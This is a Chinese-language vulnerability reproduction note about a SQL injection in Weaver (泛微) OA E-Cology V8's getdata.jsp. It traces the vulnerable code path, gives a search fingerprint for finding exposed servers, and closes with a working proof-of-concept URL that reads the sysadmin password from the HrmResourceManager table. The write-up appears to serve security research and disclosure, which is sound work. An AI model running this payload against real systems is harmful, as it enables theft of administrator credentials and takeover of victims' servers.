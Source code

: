 # 泛微OA E-Cology getdata.jsp SQL注入漏洞

## 漏洞描述

泛微OA V8 存在SQL注入漏洞，攻击者可以通过漏洞获取管理员权限和服务器权限

## 漏洞影响

<a-checkbox checked>泛微OA V8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

在getdata.jsp中，直接将request对象交给

`weaver.hrm.common.AjaxManager.getData(HttpServletRequest, ServletContext) :` 

方法处理



![img](/assets/PeiQi-Wiki/img/fanwei-17.png)



在getData方法中，判断请求里cmd参数是否为空，如果不为空，调用proc方法



![img](/assets/PeiQi-Wiki/img/fanwei-18.png)



Proc方法4个参数，(“空字符串”,”cmd参数值”,request对象，serverContext对象)

在proc方法中，对cmd参数值进行判断，当cmd值等于getSelectAllId时，再从请求中获取sql和type两个参数值，并将参数传递进getSelectAllIds（sql,type）方法中

![img](/assets/PeiQi-Wiki/img/fanwei-19.png)





POC

```plain
http://xxx.xxx.xxx.xxx/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

查询HrmResourceManager表中的password字段，页面中返回了数据库第一条记录的值（sysadmin用户的password）

![img](/assets/PeiQi-Wiki/img/fanwei-20.png)



解密后即可登录系统

![img](/assets/PeiQi-Wiki/img/fanwei-21.png)